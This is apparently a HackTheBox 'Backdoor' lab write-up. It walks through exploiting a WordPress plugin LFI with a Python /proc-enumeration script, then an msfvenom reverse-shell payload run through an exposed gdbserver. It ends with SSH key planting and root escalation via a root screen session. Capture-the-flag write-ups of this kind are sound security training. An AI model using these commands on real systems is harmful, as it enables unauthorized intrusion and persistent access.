 ```yaml
---
title: Backdoor writeup
date: 2022-06-17 14:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [Easy-box]     # TAG names should always be lowercase
img_path: /assets/img/boxes/backdoor/
image: # Thumbnail 
  src: Backdoor.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This box includes a unique way of enumerating a machine through an LFI by fuzzing for a specific PID that spawned a service on port 1337. At least I hadn't seen it before trying it. The privesc step however is rather straight forward.

## Foothold
Let's start of with an nmap scan.
```console
# Nmap 7.92 scan initiated Sat Nov 20 14:36:07 2021 as: nmap -sC -sV --open -p- -oA nmap_scans/scan_full 10.129.102.115
Nmap scan report for 10.129.102.115
Host is up (0.071s latency).
Not shown: 62690 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 20 14:36:55 2021 -- 1 IP address (1 host up) scanned in 48.52 seconds
```

Based on the nmap scan we can conclude that it is using Wordpress. Since this is a wordpress site it is usually a good idea to check which plugins are used. this can be done by checking the /wp-content/plugins directory. We quickly learn that a plugin named ebook-download 1.1 is installed. Searching for exploits related to this leads to the following poc on exploit-db:
<https://www.exploit-db.com/exploits/39575>

It's a very simple poc. Basically we can use the ebook-download plugin to download local files from the server granting us LFI.

Before we continue it might be a good idea to learn what service is running on port 1337. I wrote a very simple script 

```python
import requests

target = '/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{}/cmdline'

url = 'http://10.129.107.129'

for i in range(1000):
        r = requests.get(url + target.format(i))
        result = r.text.split("cmdline")[3].split("<script>")[0]
        if result == '':
                continue
        else:
                print(r.text.split("cmdline")[3].split("<script>")[0] + '\n')

```

The script simply automates the process of getting the cmdline which initiated the process associated with the pid in the url. We don't know what pids are found in the /proc folder on the target system, so I just used a for-loop and printed all non-empty results. 

Running this script gives us the following results (among others):
```console
/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

Based on this it seems that there is a gdb server on port 1337

To exploit this we can create a reverse shell by using msfvenom: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -o rev.elf`

we can then connect to the gdb server by using gdb:

```console
gdb
target extended-remote IP:PORT
remote put rev.elf rev.elf
set remote exec-file /home/user/rev.elf
show remote exec-file
run
```

The above commands start by connecting to the GDB server. After this the `rev.elf`{: .filepath} file is sent to the server with the same name. The file is then chosen to be run and then executed. When the file is run we of course get a reverse shell on the target system.

To get a more stable shell we simply use wget to get the id_rsa.pub file from our own system. We then rename this file to authorized_keys on the target system and connect via ssh:

![connecting via ssh](ssh.png)

## Privilege escalation

We start out by finding SUID binaries.
```console
user@Backdoor:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

screen is set as a SUID binary.

```console
ser@Backdoor:~$ ls -laR /var/run/screen
/var/run/screen:
total 0
drwxr-xr-x  4 root utmp  80 Jun 13 14:43 .
drwxr-xr-x 25 root root 760 Jun 13 14:40 ..
drwx------  2 root root  60 Jun 13 14:04 S-root
drwx------  2 user user  40 Jun 13 14:43 S-user
ls: cannot open directory '/var/run/screen/S-root': Permission denied
```
Based on this output there is a screen session running as root. To switch to this session we can use the -x flag:
```console
screen -x root/root
```
and rooted!